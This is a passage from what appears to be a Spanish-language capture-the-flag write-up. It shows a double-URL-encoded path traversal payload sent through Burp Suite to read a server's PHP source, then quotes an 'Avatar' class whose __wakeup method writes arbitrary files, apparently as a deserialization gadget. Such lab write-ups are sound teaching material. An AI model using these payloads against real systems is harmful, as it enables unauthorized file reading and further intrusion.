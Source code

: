### 2. Escalada a usuarios del sistema

En este punto vamos a hacer un doble encode de la petición que queremos mandar para ver includes.php

```
../../../../../var/www/html/includes/utils.php
```

```
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fvar%252Fwww%252Fhtml%252Fincludes%252Futils%252Ephp
```

En nuetro caso lo hacemos con CyberChef en su formato online e insertamos la petición mediante burpsuite.

<figure><img src="../../../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

Analizamos la parte de la parte de "class Avatar"

```
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```
